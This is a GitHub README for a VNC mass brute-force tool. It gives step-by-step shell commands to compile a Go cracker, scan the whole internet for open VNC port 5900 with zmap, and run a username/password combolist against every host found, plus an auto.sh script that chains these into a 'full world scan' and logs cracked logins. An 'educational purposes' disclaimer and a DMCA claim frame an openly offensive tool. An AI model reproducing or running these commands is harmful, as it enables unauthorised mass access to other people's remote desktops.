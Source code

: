 # VNC-mass-bruteforcer
Disclamer: this is intended for educational purposes only, and it is also protected by the Digital Millennium Copyright Act (DMCA)
mass bruteforce vnc servers with  iplist and user:pass combolist

Instructions:

  ------------------------------------------------
    Make a sh file named auto.sh and paste the below data
    this will scan the world to bruteforce with cmd:
                     "sh auto.sh"
    This will result in a full world scan and echo the results to the screen.
    results file : /bruteforced.log
    login file : /passwords.txt
                          ||
                          \/
  -------------------------------------------------
    echo "rm -rf bios.txt mfu.txt
    ulimit -n 999999
    zmap -p5900 -N170000 -obios.txt
    python add_port.py bios.txt mfu.txt 5900
    ./vnc_brute passwords.txt mfu.txt
    awk {'print $0; system("sleep 0.003"'} bruteforced.log" > auto.sh
  -------------------------------------------------
FIRST TIME INSTRUCTIONS: 

  -----------------------------------------------------
  COMPILE THE BRUTER
    go env -w GO111MODULE=off
    go get github.com/kward/go-vnc
    go build vnc_brute.go
  -----------------------------------------------------
  SCAN FOR IP RANGES
    zmap -p5900 -N150000 -ovnc_mfu_unfilt.txt
  -----------------------------------------------------
  ADD PORT NUMBER
    python add_port.py vnc_mfu_unfilt.txt vnc_mfu.txt 5900
  -----------------------------------------------------
  START BRUTEFORCE
    ./vnc_brute passwords.txt vnc_mfu.txt

